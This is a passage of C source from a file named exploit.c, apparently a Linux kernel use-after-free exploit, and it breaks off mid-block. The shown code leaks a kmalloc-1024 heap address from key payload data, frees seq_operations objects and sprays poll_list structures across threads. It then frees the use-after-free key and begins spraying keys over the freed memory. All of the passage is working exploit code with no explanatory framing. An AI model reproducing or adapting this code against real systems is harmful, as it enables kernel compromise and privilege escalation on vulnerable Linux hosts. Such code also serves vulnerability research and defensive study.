 ```exploit.c
  ulong km1024_leaked = 0;
  ulong *tmp = (ulong*)keybuf + 1;
  for (int ix = 0; ix != 0x4330/8 - 2 - 1; ++ix) {
    if (
      (tmp[ix] >> (64-4*4)) == 0xFFFF && // tty must be in kheap
      (tmp[ix + 1] >> (64-4*4)) == 0xFFFF && // file must be in kheap
      tmp[ix+2] == tmp[ix+3] && tmp[ix+2] != 0 && // list_head's next and prev are same
      (tmp[ix] & 0xFF) == 0x00 && // tty must be 0x100 aligned
      (tmp[ix + 1] & 0xFF) == 0x00 && // file must be 0x100 aligned
      (tmp[ix + 2] & 0xF) == 0x08
    ) {
      if (km1024_leaked == 0) {
        km1024_leaked = tmp[ix];
        printf("[!] \t+0: 0x%lx (tty)\n", tmp[ix]);
        printf("[!] \t+1: 0x%lx (*file)\n", tmp[ix + 1]);
        printf("[!] \t+2: 0x%lx (list_head.next)\n", tmp[ix + 2]);
        printf("[!] \t+3: 0x%lx (list_head.prev)\n", tmp[ix + 3]);
        break;
      }
    }
  }
  if (km1024_leaked == 0) {
    print_curious(keybuf, 0x4300, 0);
    errExit("Failed to leak kmalloc-1024");
  }
  printf("[!] leaked kmalloc-1024: 0x%lx\n", km1024_leaked);

  /********************************************************/

  // Free `seq_operations`, one of which is `user_key_payload`
  for (int ix = NUM_SEQOPERATIONS - NUM_FREE_SEQOPERATIONS; ix != NUM_SEQOPERATIONS; ++ix) {
    close(seqops_fd[ix]);
  }
  puts("[+] Freeed seq_operations");

  sleep(5); // TODO
  // Spray `poll_list` in kmalloc-32, one of which is placed on `user_key_payload`
  assign_to_core(2);
  neverend = 1;
  puts("[+] spraying `poll_list` in kmalloc-32...");
  num_threads = 0;
  for (int ix = 0; ix != NUM_2ND_POLLLIST_ALLOC; ++ix) {
    struct alloc_poll_list_t *arg = malloc(sizeof(struct alloc_poll_list_t));
    arg->fd = just_fd; arg->id = ix;
    arg->timeout_ms = 3000; // must 1000 < timeout_ms, to wait key GC
    arg->num_size = 30 + 2;
    if(pthread_create(&threads[ix], NULL, alloc_poll_list, arg) != 0) errExit("pthread_create");
  }
  // wait threads are initialized (to prevent double free)
  assign_to_core(0);
  while(num_threads != NUM_2ND_POLLLIST_ALLOC);
  usleep(300 * 1000);

  // Revoke UAFed key, which is on `poll_list` in kmalloc-32
  puts("[+] Freeing UAFed key...");
  free_key(uafed_key);
  sleep(1);

  // Spray keys on UAFed `poll_list`
  puts("[+] spraying keys in kmalloc-32");
  assert(num_keys == 0);
  {
    char *key_payload = malloc(SIZE_KEY_TOBE_OVERWRITTEN_SEQOPS);
```